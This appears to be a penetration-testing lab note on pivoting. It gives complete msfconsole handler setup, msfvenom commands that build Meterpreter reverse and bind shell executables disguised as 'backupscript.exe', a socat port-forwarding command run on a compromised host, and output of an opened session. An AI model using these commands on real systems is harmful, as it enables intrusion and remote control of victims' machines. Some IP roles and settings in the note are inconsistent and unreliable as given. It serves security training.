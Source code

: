 Configuring & Starting the multi/handler. Starting a listener on our attacked host:

```shell-session
sudo msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 80
run
```

Create a windows payload

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.64.147.2 -f exe -o backupscript.exe LPORT=8080
```

Keep in mind that we must transfer this payload to the Windows host (192.182.147.3) and execute it to obtain the reverse shell.

### Socat Redirection with a Bind Shell

Attacker machine: 192.64.166.2
Attacked machine 1: 
	- 192.64.166.3: A listener in port 8080 that forwards all from 192.182.147.3:8443
	- 192.182.147.2: 
Attacked machine 2:
	- 192.182.147.3:  A listener in port 8443


**1.** Create a bind shell with the windows payload using msfvenom from our attacker machine:

```shell-session
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

**2.** Start a socat bind shell listener, which listens on port 8080 and forwards packets to Windows server 8443. **We do this from the attacked machine 1**.

```shell-session
socat TCP4-LISTEN:8080,fork TCP4:192.182.147.3:8443
```

**3.** Configuring & Starting the Bind multi/handler. **We do this from the attacked machine 1**.

```shell-session
msfconsole -q

use exploit/multi/handler
set RHOST 192.64.166.2
set LPORT 8080
run


[*] Started bind TCP handler against 192.64.166.2:8080
...
...
# Establishing Meterpreter Session
[*] Sending stage (200262 bytes) to 192.64.166.2
[*] Meterpreter session 1 opened (192.64.166.3:46253 -> 192.64.166.2:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor

```
